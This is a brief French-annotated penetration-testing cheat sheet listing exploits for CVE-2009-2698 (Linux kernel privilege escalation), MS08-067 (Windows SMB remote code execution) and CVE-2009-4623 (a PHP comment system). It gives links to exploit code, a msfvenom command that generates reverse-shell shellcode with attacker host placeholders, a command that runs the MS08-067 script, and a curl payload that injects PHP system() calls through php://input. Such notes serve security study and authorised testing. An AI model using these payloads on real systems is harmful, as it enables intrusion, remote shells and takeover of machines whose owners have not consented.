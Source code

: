 # CVE

## Linux

#### CVE-2009-2698 (Linux Kernel < 2.6.19 (x86/x64) - 'udp\_sendmsg') - LPE

```
https://github.com/xiaoxiaoleo/CVE-2009-2698 #Binaire
https://github.com/pythonmaster41/Go-For-OSCP/blob/master/Exploits/9545.c #Versions vulnérables
```

## Windows

#### MS08-067 (SMB) - RCE

```
https://github.com/Agent-Tiro/HackTheBoxScripts/blob/master/Python3-MS08-067.py
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86
python3 Python3-MS08-067.py <IP> 1 445 #Changer l'OS cible en modifiant le '1'
```

## WEB

#### CVE-2009-4623 (Advanced Comment System 1.0) - RCE

```
curl -s --data "<?system('<CMD');?>" 'http://<IP>/internal/advanced_comment_system/admin.php?ACS_path=php://input%00'
```
